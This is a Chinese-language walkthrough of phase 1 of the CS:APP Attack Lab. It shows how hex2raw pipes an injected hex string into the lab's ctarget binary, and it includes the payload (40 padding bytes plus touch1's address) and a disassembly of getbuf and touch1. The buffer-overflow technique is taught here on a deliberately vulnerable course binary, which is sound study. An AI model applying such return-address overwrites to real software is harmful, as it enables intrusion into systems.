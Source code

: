 - `./hex2raw < ctarget01.txt`是利用`hex2raw`工具将我们的输入看作字节级的十六进制表示进行转化，用来生成攻击字符串

  > ~~~bash
  > ./hex2raw <phase1.txt | ./ctarget -q
  > ~~~

- 利用管道将输入文件作为`ctarget`的输入参数

- 由于执行程序会默认连接 CMU 的服务器，`-q`表示取消这一连接

- 注入的二进制数据十六进制表示

  >~~~
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >00 00 00 00 00 00 00 00
  >c0 17 40 00 00 00 00 00
  >~~~

~~~assembly
0000000000401968 <test>:
  401968:	48 83 ec 08          	sub    $0x8,%rsp
  40196c:	b8 00 00 00 00       	mov    $0x0,%eax
  401971:	e8 32 fe ff ff       	callq  4017a8 <getbuf>
  401976:	89 c2                	mov    %eax,%edx
  401978:	be 88 31 40 00       	mov    $0x403188,%esi
  40197d:	bf 01 00 00 00       	mov    $0x1,%edi
  401982:	b8 00 00 00 00       	mov    $0x0,%eax
  401987:	e8 64 f4 ff ff       	callq  400df0 <_/76_printf_chk@plt>
  40198c:	48 83 c4 08          	add    $0x8,%rsp
  401990:	c3                   	retq   

00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
~~~
